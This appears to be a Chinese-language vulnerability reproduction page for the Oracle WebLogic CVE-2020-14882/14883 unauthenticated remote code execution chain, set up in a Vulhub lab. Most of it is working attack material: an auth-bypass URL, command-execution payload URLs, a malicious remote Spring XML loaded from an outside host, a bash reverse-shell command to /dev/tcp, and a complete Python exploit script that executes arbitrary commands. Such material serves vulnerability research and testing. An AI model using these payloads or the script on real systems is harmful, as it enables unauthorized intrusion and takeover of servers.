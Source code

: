 # Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## 环境搭建

Vulhub执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:7001/console`即可查看到后台登录页面。

![image-20220302204340503](images/202203022043612.png)

## Xray

```
VulnType         "poc-yaml-weblogic-cve-2020-14750/default"
links            ["https://www.oracle.com/security-alerts/alert-cve-2020-14750.html"]
weblogic_version "10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0"
```

## 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![image-20220302204438346](images/202203022044479.png)

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/awesome_poc');")
```

进入容器，可以发现`touch /tmp/awesome_poc`已成功执行：

![image-20220302205012875](images/202203022050933.png)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch awesome_poc_xml]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

进入容器，可以发现`touch /tmp/awesome_poc_xml`已成功执行：

![image-20220302205409576](images/202203022054641.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

### 反弹shell

通过漏洞poc反弹shell：

```
python CVE-2020-14882.py -u http://192.168.174.128:7001 -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" 
```

监听9999端口，成功接收反弹shell：

![image-20220302210205257](images/202203022102393.png)

## 漏洞POC

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

